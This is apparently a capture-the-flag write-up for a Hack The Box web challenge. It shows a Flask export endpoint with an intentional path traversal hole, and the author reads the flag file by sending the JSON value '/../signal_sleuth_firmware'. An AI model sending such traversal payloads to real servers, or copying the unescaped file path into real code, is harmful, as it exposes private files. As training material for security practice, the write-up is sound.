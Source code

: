 Insomnia then automatically stored the login session cookie, so I didn't have to transfer it over from the browser.

Lets take a look at the `/export` API endpoint code.
```py
@api.route('/export', methods=['POST'])
@isAuthenticated
def exportFile():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()
    communicationName = data.get('name', '')

    try:
        # Everyone is saying I should escape specific characters in the filename. I don't know why.
        return send_file(f'/communications/{communicationName}', as_attachment=True)
    except:
        return response('Unable to retrieve the communication'), 400
```

I originally assumed that it was doing a database lookup for the communications based on the name from the table, but I noticed that it's actually just directly referencing the filename on the server, so this will be much easier than I originally thought.

When you're logged in and looking at the dashboard it gives you, and click the download button beside the transmissions, they all talk to this API endpoint and retrieve `communication.mp3` - specifically `/communications/communication.mp3`. Each database entry refers to the same file, for simplicity.

In the `Dockerfile`, we can see that the flag is actually in a file called `/signal_sleuth_firmware`:
```dockerfile
COPY flag.txt /signal_sleuth_firmware
```
I made the mistake of assuming that it was located at `/signal_sleuth_firmware/flag.txt`, and spent an embarrasingly long amount of time trying to get the following exploit to work, only to discover that I should have read more closely.

In Insomnia, I set up a `POST` request to go to `/api/export`, with the following `json` body:

```json
{ "name" : "/../signal_sleuth_firmware" }
```
And the response body contains the flag.

```
HTB{T1m3_b4$3d_$ql1_4r3_fun!!!}
```